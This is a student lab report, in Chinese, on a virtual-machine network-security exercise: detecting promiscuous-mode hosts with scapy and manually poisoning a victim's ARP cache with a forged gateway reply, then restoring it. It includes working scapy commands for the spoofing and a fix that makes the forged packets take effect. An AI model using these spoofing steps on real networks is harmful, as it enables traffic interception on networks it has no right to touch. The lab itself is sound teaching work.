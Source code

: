 # 网络安全第四章实验报告  

### 网络拓扑结构  
![网络拓扑](./image/网络拓扑.jpg)  

|身份|虚拟机名称|网卡|IP地址|MAC地址|
|----|----|----|----|----|
|网关|DEBIAN-1|intnet1|172.16.111.1|08:00:27:40:bd:be / enp0s9|
|攻击者主机|KALI-attack|intnet1|172.16.111.134|08:00:27:80:8d:67 / eth0|
|受害者主机|KKK|intnet1|172.16.111.143|08:00:27:3a:97:3e / eth0|  

### 实验准备  

* 安装scapy  
在攻击者主机(KALI-attack)中安装scapy    
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```  
![scapy成功安装](./image/scapy下载.jpg)  

### 实验一 检测局域网中的异常终端  

1. 在受害者主机上检查网卡的「混杂模式」是否启用  

```
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```  
![检查网卡混杂模式](./image/检查网卡混杂模式.jpg)  

2. 在攻击者主机上开启scapy  
![攻击者主机开启scapy](./image/开启scapy.jpg)  

3. 在 scapy 的交互式终端输入以下代码回车执行  
`pkt = promiscping("172.16.111.143")`  
![scapy结果](./image/scapy结果.jpg)  

4. 回到受害者主机上开启网卡的「混杂模式」  
`sudo ip link set eth0 promisc on`  
![混杂模式结果](./image/开启混杂模式.jpg)  

5. 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异  
![比较差异](./image/比较差异.jpg)  

6. 在受害者主机上手动关闭网卡的「混杂模式」  
![关闭混杂模式](./image/关闭混杂模式.jpg)  

### 实验二 手工单步“毒化”目标主机的 ARP 缓存  

以下未特殊标记操作均作用于攻击者主机  

1. 获取当前局域网的网关 MAC 地址  
```  
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:80:8d:67
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:80:8d:67
#      psrc= 172.16.111.134
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```  
![获取网关MAC](./image/获取网关MAC.jpg)  
![网关MAC](./image/MAC地址展示.jpg)

2. 伪造网关的 ARP 响应包发送给受害者主机  
```  
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.143", hwdst="08:00:27:80:8d:67")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![发送伪造ARP](./image/发送伪造ARP.jpg)  

3. 在受害者主机上查看 ARP 缓存  
![受害者ARP缓存](./image/受害者ARP缓存.jpg)  

4. 恢复受害者主机的 ARP 缓存记录  
```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:40:bd:be", pdst="172.16.111.143", hwdst="08:00:27:3a:97:3e")
sendp(restorepkt1, count=100, inter=0.2)
```  
![恢复构造包](./image/恢复构造包.jpg)  
![恢复发送包](./image/恢复发送包.jpg)

5. 在受害者主机上“刷新”网关 ARP 记录  
`ping 172.16.111.1` 在受害者主机上ping网关  
`ip neigh` 再次查看ARP缓存  
![恢复后ARP缓存](./image/恢复后的ARP缓存.jpg)  

### 问题及解决  
1. 攻击者主机使用scapy报错  
![permissionerror](./image/permissionerror.jpg)  
错误原因：权限不够  
解决方案：`sudo scapy`以高权限运行scapy  

2. ARP缓存不及时更新  
攻击者主机发送伪造ARP响应时，受害者主机缓存不更新  
错误原因：伪造包仅显示发送，但可能并未成功  
解决方案：在构造的ARP包前增加Ether()  
![不更新解决方案](./image/缓存不更新解决方案.jpg)  

#### 参考资料  
[网络安全教材第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)  
[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)  


